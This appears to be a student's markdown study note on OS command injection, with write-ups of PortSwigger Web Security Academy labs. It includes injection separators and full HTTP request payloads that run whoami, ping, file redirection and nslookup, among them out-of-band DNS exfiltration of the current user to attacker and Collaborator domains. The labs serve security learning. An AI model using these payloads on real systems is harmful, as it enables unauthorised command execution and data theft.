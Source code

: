 # OS Command Injection
OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

**Command separators:**
- Windows and Unix-based systems: `&`, `&&`, `|`, `||`
- Unix-based systems: `;`, `0x0a`, `\n`

## Blind OS command injection vulnerabilities
- **Detecting blind OS command injection using time delays:** use the ping command `ping -c 10 127.0.0.1 &`
- **Exploiting blind OS command injection by redirecting output:** redirect the output from the injected command into a file within the web root that we can retrieve: `& whoami > /var/www/static/whoami.txt &`
- **Exploiting blind OS command injection using out-of-band (OAST) techniques:** trigger out-of-band network interaction with a system that we controll using OAST techniques: `& nslookup $(whoami).kgji2ohoyw.web-attacker.com &`

### LAB: OS command injection, simple case
The vulnerability occurs in check stock function. Send this request to inject an OS command:

    POST /product/stock HTTP/2
    Host: 0ad9007f032f6b3d81687fa8009b00aa.web-security-academy.net

    productId=3&storeId=1+%26+whoami

### LAB: Blind OS command injection with time delays
The vulnerability occurs in the feedback function. Send this request to inject an OS command:

    POST /feedback/submit HTTP/2
    Host: 0a840059042358b7c2412ce700d80064.web-security-academy.net

    csrf=JDKzwkJjlmu2Yehyk2tmH7URgByH54Dn&name=asc&email=x@gmail.com||ping+-c10+127.0.0.1||&subject=c&message=asc

Notice the 10 seconds delay of the response indicating a successfull attack.

### LAB: Blind OS command injection with output redirection
The vulnerability occurs in the feedback function. Send this request to inject an OS command:

    POST /feedback/submit HTTP/2
    Host: 0a4900dc03776bb281eb9d90000b00fe.web-security-academy.net

    csrf=jpd639RM948HwQU9JITr18Tg4KrxnoYZ&name=pu&email=haha%40gmail.com||whoami>/var/www/images/exploit.txt||&subject=c&message=asc

This injection will redirect the output of the `whoami` command to `exploit.txt` which we can then view at `/image?filename=exploit.txt`.

### LAB: Blind OS command injection with out-of-band interaction
The vulnerability occurs in the feedback function. Send this request to inject an OS command:

    POST /feedback/submit HTTP/2
    Host: 0a340079033d2cea802c6c86008700d7.web-security-academy.net

    csrf=t623gozMKTxhBQvgg5sYHw4lqv1VF4oH&name=123&email=haha%40gmail.com||nslookup+2x0po963hafcq4b31orf9mxqchi86yun.oastify.com||&subject=asc&message=c

This injection will perform a DNS look up to the specified address. Notice the incoming DNS query at Burp's Collaborator.

### LAB: Blind OS command injection with out-of-band data exfiltration
The vulnerability occurs in the feedback function. Send this request to inject an OS command:

    POST /feedback/submit HTTP/2
    Host: 0a670032047167b381cb8efe00c600e1.web-security-academy.net

    csrf=CKySObjzzglqT3sMcFUFZblX7HfSLbTN&name=123&email=haha%40gmail.com||nslookup+$(whoami).unlhe1wv7254gw1vrgh7zeni2981wskh.oastify.com||&subject=asc&message=123

This injection will perform a DNS look up to the specified address with the value of the `whoami` command as the hostname. Notice the incoming DNS query at Burp's Collaborator containing the name of the current user. Submit it to solve the lab.

